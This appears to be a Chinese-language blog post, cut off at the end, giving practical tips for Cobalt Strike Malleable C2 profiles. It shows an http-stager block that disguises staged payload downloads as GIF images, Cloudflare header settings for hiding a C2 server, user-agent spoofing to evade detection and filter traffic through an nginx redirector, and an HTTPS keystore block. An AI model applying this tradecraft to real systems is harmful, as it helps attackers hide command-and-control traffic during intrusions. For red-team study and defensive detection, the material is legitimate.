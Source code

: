https://github.com/rsmudge/Malleable-C2-Profiles

官方参考地址：

https://www.cobaltstrike.com/help-malleable-c2

**填坑 1：**生成 shellcode 或可执行文件时渗透时，是在目标机放一个小的 payload，然后由这个小的 payload 去下载大马，这个过程是个分段过程，不是一次下载回来的，其中下载请求相关的流量特征，可以通过 http-stager 来定义：

```
http-stager {
  set uri_x86 "/get32.gif";
  set uri_x64 "/get64.gif";
  client {
    parameter "id" "1234";
    header "Cookie" "SomeValue";
  }
  server {
    header "Content-Type" "image/gif";
    output {
      prepend "GIF89a";
      print;
    }
  }
}
```

**填坑 2：**使用 cloudflare 隐藏 c2 还要设置 profile 中的 head 的 mime-type，具体为：需要在 http-config 将头设置为 header "Content-Type" "application/*; charset=utf-8"，不然可能会出现能上线但是无法回显命令的情况：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8cvQtyplN5ydfjo6Eeu9w0BzaTgrUY9cmh3vBqgStnT4z9quSYQp1SElHoUC5wUL1ibYj9KIWjMqg/640?wx_fmt=png)

**填坑 3：**在 profile 中设置 user-agent 可避免各种被检测，同时也是 https 反向代理的有力识别标志。

例如将 ua 设置为 Mozilla/5.0 (Windows NT 6.1; Trident/8.0; rv:12.0)：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8cvQtyplN5ydfjo6Eeu9w0E5A6mzNYCQKKuGE4HINTYgcuQWltZ6WFRj9oS8YRuw8TUplGKGXLvg/640?wx_fmt=png)

在使用 nginx 反向代理时即可过滤：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8cvQtyplN5ydfjo6Eeu9w0skLX88p3PjErCmjqJEaEcNGcVNd1ZwLQM3zeB86kgdbHtzCnJlWhUA/640?wx_fmt=png)

此时如果有多个工具生成 shellcode 上线 ua 不同，可设置多条件过滤，满足多人运动的需求：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8cvQtyplN5ydfjo6Eeu9w07F59Pdf6bhiaeApFoKoh83wB69gz3z0fibJjvQ9RFulb6iaobCcPKuAxA/640?wx_fmt=png)

最后在 https-certificate 配置中还要对 https 证书进行声明：

```
https-certificate {
set keystore “api.xxx.com.store”;
set password “123456”;
}
```

最后检查配置文件有效性：  

